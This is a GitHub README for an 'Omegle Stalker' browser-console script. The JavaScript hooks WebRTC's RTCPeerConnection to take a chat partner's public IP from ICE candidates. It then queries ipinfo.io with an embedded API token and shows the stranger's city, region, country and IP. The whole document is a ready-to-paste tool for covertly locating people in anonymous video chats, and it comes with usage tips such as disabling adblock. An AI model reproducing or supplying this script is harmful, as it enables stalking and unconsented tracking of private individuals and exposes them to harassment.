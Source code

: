 # Omegle Stalker
JavaScript script that gets the stranger's location and IP

![Sample Image](./image.png "Image")

**YOU NEED TO DISABLE ADBLOCK IN ORDER TO USE THIS SCRIPT SINCE IT BLOCKS THE REQUESTS.**

## Usage:
Just copy and paste the script in your browser's console

```javascript

window.oRTCPeerConnection = window.oRTCPeerConnection || window.RTCPeerConnection

window.RTCPeerConnection = function (...args) {
    const pc = new window.oRTCPeerConnection(...args)

    pc.oaddIceCandidate = pc.addIceCandidate

    pc.addIceCandidate = function (iceCandidate, ...rest) {
        const fields = iceCandidate.candidate.split(' ')
        if (fields[7] === 'srflx') {
            console.log(fields[4])
            httpGet(fields[4])
        }
        return pc.oaddIceCandidate(iceCandidate, ...rest)

    }

    return pc
}

function httpGet(field) {
    const request = new XMLHttpRequest()

    let url = `https://ipinfo.io/${field}?token=88872609d792b2` // API token goes here 

    request.open('GET', url)

    request.onload = function () {
        console.log(JSON.parse(this.responseText))
        console.log('url: ' + url)
        let data = JSON.parse(this.responseText)
        output(`City: ${data["city"]}`)
        output(`Region: ${data["region"]}`)
        output(`Country: ${data["country"]}`)
        output(`IP: ${data["ip"]}`)
    }

    request.onerror = function () { console.log('Erro!!@#!@#!@#!@!@#!@# na request') }

    request.send()
}

let history = []
function output(str) {
    if (!history.includes(str)) {
        let holder = document.getElementsByClassName('logbox')[0].firstChild

        let new_item = document.createElement('div')
        new_item.className = 'logitem'

        let new_status = document.createElement('p')
        new_status.innerHTML = str
        new_status.className = 'statuslog'

        new_item.appendChild(new_status)
        holder.appendChild(new_item)
        history.push(str)
    }
}

```

## TODO
Will add these features in the future
- [ ] Works as an extension
- [ ] Unlimited requests

## Warning
Currently there is a limit on the requests, and once it gets to its limit, this script will stop working. You can edit your [ip.info](https://ipinfo.io/) API token in order to use it more times.

If you know any free and unlimited ``https`` based geolocation API, please let me know (contact me via Discord)

**YOU NEED TO DISABLE ADBLOCK IN ORDER TO USE THIS SCRIPT SINCE IT BLOCKS THE REQUESTS.**
